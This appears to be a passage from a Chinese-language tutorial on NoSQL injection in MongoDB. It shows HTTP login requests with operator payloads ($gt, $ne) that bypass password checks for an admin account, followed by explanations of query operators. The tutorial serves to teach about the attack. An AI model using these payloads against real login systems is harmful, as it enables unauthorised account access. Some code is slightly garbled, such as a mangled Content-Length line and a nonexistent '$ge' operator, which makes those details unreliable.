 虽然这里我们不再处理查询语言，但攻击者仍然可以通过提供如下 JSON 输入对象来获得与 SQL 注入相同的结果:

```
POST /login HTTP/1.1 
Host: example.org 
Content-Type: application/json 
Content-Length: 38{
“username”: “admin”,
“Password”: {'$gt': “”}
}
```

如果不是 JSON 请求

```
POST /login HTTP/1.1 
Host: example.org 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 29 user=admin&password[%24ne]=
```

## MongoDB 运算符

这里有一个两种情况下等价攻击的例子，攻击者设法在不知道密码的情况下检索管理员用户的记录。SQL 和 NoSQL 数据库都容易受到攻击。

利用 MongoDB 查询运算符:

MongoDB 有很多查询操作符

> $ne —不相等
> 
> $gt —大于
> 
> $regex —正则表达式
> 
> $ where 子句允许您指定一个脚本来过滤结果

## **$gt & $ne 查询运算符**

*db . items . find(query object)*

queryObject 用于选择数据的对象，例如:

```
queryObject = {amount:0}; //items with fixed value ‘amount’ is 0
```

如果我们注入$gt:0，我们将获得字段金额> 0 的所有项目。查询对象将如下所示:

```
queryObject = {amount: {$gt:0}}; //items with field amount >0
```

让我们考虑将下面的 JSON 请求发送给应用程序:

```
{desiredType: ‘shirt’}
{desiredType: {$ge:0}}
```
